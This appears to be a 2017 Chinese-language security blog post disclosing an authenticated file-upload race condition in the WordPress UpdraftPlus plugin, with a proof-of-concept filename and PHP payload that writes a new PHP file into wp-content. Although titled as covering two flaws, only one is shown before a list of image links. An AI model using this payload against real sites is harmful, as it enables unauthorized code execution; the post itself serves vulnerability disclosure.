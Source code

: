 ```yaml
---
title: WordPress Updraftplus 插件漏洞2则以及一些有趣的故事
date: 2017-12-19 16:48:13
tags:
- wordpress
- 条件竞争
- ssrf
---
```


几个月前代码审计的时候，翻了翻wordpress的几个插件，因为wordpress的主要功能基本都是后台的，很少有前台能触发的漏洞，也就没看了，后来顺手就把挖到的2个后台漏洞申请了cve，没想到引来两个人讨论...

你觉得，什么样的漏洞才算是漏洞呢？




# authentiicated upload file and php code execution #

file `/wp-content/plugins/updraftplus/admin.php` line 1843 function `plupload_action`

via the name parameter to set filename, and move file content into this file.

The server will do a basic verification of the file name, you can get a valid backup file name,just like `backup_2017-11-29-1844_test_d6c634e49869-plugins.zip.`

![image.png-72.3kB][1]

after the 39 lines, this file be delete
![image.png-296.3kB][2]

there are Race condition, when we view this pages before delete after write in. we can make php code execution.


## PoC ##

file name just like:
```
backup_2017-11-29-1844_test_d6c634e49869-plugins
```


file content:
```
<?php
$f = fopen('../a.php','wb');
fwrite($f, '<?php phpinfo();?>');
fclose($f);
```

via upload this file, and view this pages before delete, we can write a a.php into `/wp-content/a.php`


  [1]: http://static.zybuluo.com/LoRexxar/ypg8xnr3sond8644y8swl8jc/image.png
  [2]: http://static.zybuluo.com/LoRexxar/68a8puqj0k96ifgmryzi2ogw/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ewecs9lrot08ijg2vlvituh9/image.png
  [4]: http://static.zybuluo.com/LoRexxar/u7y5hg3m1y2nj2c8kxbbhuk6/image.png
  [5]: http://static.zybuluo.com/LoRexxar/8o61e5tla9dglj0m5g2z7349/image.png
  [6]: http://static.zybuluo.com/LoRexxar/r1pfhrohhin6kj295zoqckjh/image.png
  [7]: http://static.zybuluo.com/LoRexxar/nvvhoe3gxmepnug6yf6aaojr/image.png
  [8]: http://static.zybuluo.com/LoRexxar/pksfa3e4gtjg6ztgnuubedkb/image.png
  [9]: http://static.zybuluo.com/LoRexxar/smc72erghubs8a1xvtzo5sjp/image.png
  [10]: http://static.zybuluo.com/LoRexxar/qa12ejx4ad0pf4c245fe3nqg/image.png
  [11]: http://static.zybuluo.com/LoRexxar/gm5rvjq13ajcw3o19cyprllv/image.png